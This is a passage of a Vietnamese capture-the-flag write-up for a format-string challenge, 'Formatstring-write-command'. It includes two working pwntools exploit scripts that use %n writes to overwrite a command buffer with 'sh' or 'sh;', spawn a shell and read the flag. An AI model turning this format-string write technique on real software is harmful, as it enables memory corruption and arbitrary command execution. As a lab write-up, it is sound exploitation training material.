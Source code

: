 thấy tại chuỗi %x thứ 4 sẽ gặp lại chuỗi chúng ta nhập vào

![image](https://hackmd.io/_uploads/ByWS6pPwa.png)


![image](https://hackmd.io/_uploads/ByOs4pvwT.png)


```python=
#!/usr/bin/python3.7
from pwn import *
context.binary = exe = ELF('./Formatstring-write-command')

p = process(exe.path)

# input()

payload = b'\x40\xa0\x04\x08'
payload += f'%{0x00006873-4}x%4$n'.encode()
p.send(payload)

p.interactive()
```

và stack lúc này 
![image](https://hackmd.io/_uploads/SycjnTvDa.png)

hoặc:
```python=
#!/usr/bin/python3.7
from pwn import *
context.binary = exe = ELF('./Formatstring-write-command')

p = process(exe.path)

# input()

payload = b'\x40\xa0\x04\x08'
payload += f'%{0x003b6873-4}x%4$n'.encode()
p.send(payload)

p.interactive()
```

để ngắt  câu lệnh bằng dấu **";"**
![image](https://hackmd.io/_uploads/SJhBTnDDT.png)
sau đó mình đọc flag và được

và mình được flag là:
**KMA{OH ... YOU FOUND MY HIDDEN BACKDOOR}**

## Formatstring-leak-flag-in-mem-stack
